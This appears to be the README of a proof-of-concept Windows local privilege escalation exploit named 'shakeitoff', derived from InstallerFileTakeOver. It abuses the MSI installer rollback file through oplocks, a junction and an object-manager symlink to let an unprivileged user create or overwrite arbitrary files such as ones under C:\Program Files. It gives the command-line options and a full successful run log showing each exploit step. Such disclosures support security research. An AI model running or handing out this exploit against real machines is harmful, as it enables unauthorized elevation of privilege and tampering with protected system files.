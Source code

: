 # shakeitoff

A smaller / minimized (hopefully cleaner) version of [InstallerFileTakeOver](https://github.com/klinix5/InstallerFileTakeOver). There is some shared code but this is mostly rewritten (including a new msi). The `FileOpLock` code is a (slight modified) version pulled out of [angrypolarbearbug2](https://github.com/jackusm/polarbearrepo/tree/f37184a3fc3ffa5ea76035c9fbdee95a39d7b4c3/angrypolarbearbug2). Ownership of those files is super unclear to me but I see we have similar in Metasploit :shrug:.

## Usage

The tool requires three parameters:

```
C:\Users\albinolobster\source\repos\shakeitoff\x64\Release>.\shakeitoff.exe
option "msi_path" is required
Allowed options:
  -h, --help              produce help message
  -m, --msi_path arg      The path to the MSI to install
  -i, --install_path arg  The path to install to
  -p, --target_path arg   The file to create
```

1. -m - the msi to install (full path required). One is provided in this repository (and you should use it since the file paths actually matter).
2. -i - the install path (full path required). This is where the msi is installed / the exploit goes down. The user must specify this beforehand and it *must* be an empty directory. The tool doesn't clean it up because it makes figuring out the bug easier. There also must be a trailing \ because I'm a monster.
3. -p - the file to overwrite/create. Full path required.


The PoC will just copy itself into the target file. Easy enough to tweak though.


## Usage Example

```
C:\Users\Public>dir "C:\Program Files\lol"
 Volume in drive C has no label.
 Volume Serial Number is 5E1E-AC13

 Directory of C:\Program Files

File Not Found

C:\Users\Public>.\shakeitoff.exe -m C:\Users\Public\shakeitoff.msi -i C:\Users\Public\lol\ -p "C:\Program Files\lol"
[+] User provided MSI path: C:\Users\Public\shakeitoff.msi
[+] The target path is: C:\Program Files\lol
[+] Create the temp directory structure we'll install into
[+] Grabbing handle to lock C:\Users\Public\lol\shakeitoff\haters.jpg
[+] Grabbing a directory handle of C:\Users\Public\lol\shakeitoff\
[+] Monitor shakeitoff\shakeitoff for an rbf file
[+] MSI install: ACTION=ADMIN REBOOT=ReallySuppress TARGETDIR=C:\Users\Public\lol\ C:\Users\Public\shakeitoff.msi
[+] Grabbing a handle to inner shakeitoff directory
[+] In callback for oplock one
[+] Opening handle to C:\Users\Public\lol\shakeitoff\8da858.rbf
[+] Creating the callback directory at C:\Users\Public\lol\cb_directory
[+] Grab a handle for the callback directry
[+] Creating a junction from C:\Users\Public\lol\cb_directory to \BaseNamedObjects\Restricted
[+] Inside callback two
[+] Release the hater.jpg handle to unlock
[+] Move the rbf file to C:\Users\Public\lol\weird_directory
[+] Move inner shakeitoff to C:\Users\Public\lol\weird_directory
[+] Move junction at C:\Users\Public\lol\cb_directory to C:\Users\Public\lol\shakeitoff
[+] Configuring symlink from \BaseNamedObjects\Restricted\8da858.rbf to \??\C:\Program Files\lol
[+] symlink created!
[+] MsiInstallProductA return value: 1603
[+] Exploit thread joined
[+] Copy into target!

C:\Users\Public>dir "C:\Program Files\lol"
 Volume in drive C has no label.
 Volume Serial Number is 5E1E-AC13

 Directory of C:\Program Files

12/02/2021  02:01 PM           368,640 lol
               1 File(s)        368,640 bytes
               0 Dir(s)  86,015,610,880 bytes free
```